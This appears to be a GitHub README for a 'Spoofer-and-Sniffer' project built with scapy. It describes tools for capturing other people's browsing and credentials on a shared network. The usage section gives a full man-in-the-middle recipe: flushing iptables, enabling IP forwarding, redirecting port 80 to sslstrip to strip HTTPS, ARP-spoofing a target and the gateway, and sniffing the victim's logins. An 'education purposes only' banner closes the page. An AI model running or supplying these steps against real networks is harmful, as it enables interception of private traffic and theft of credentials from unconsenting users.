 <h1 align="center">Spoofer-and-Sniffer</h1>
<hr>

## Project Description 📽️  
<br>
<p> Get the Code for understanding how ARP SPOOFER AND PACKET SNIFFER are made to get the information of other people surfing over same network and Also how the Credentials Get stolen over the internet. <br> ARP spoofer and packet sniffer are made using the scapy module. <br> These are some of tools used by professionals as well</p>
<br>
<hr>
<br>

## Usage 💻:


- **The further Steps are used for bypassing https requests**

Step 1: flush out the iptables
```
$ iptables --flush
```

Step 2: PORT FORWARDING ACTIVE:
```
$ echo "1" > /proc/sys/net/ipv4/ip_forward
```

Step 3: Redirect the incoming packets to sslstrip PORT 10000:
```
$ iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>
```

Step 4: Open a New Terminal Window and run command:
```
$ sslstrip
```
<br>

- **Head over to Linux Command Line and Run the spoofer**
```
$ python3 arp_spoofer.py -t (target ip address) -g(gateway ip address)
```
(Run network_scanner given in my other Repository to get the target ip address ) ==> [Network_Scanner](https://github.com/shivdon/Network_Scanner-FOR-WINDOWS)
<br>

- **To Get the INFORMATION of Sites the victim is searching and also get the Credentials(If THEY ARE SIGNING UP/IN) to a website:
```
$ python3 packet_sniffer.py
```
<br>
<br>
<hr>
<h1 align="center">***FOR EDUCATION PURPOSES ONLY***</h1>
<hr>
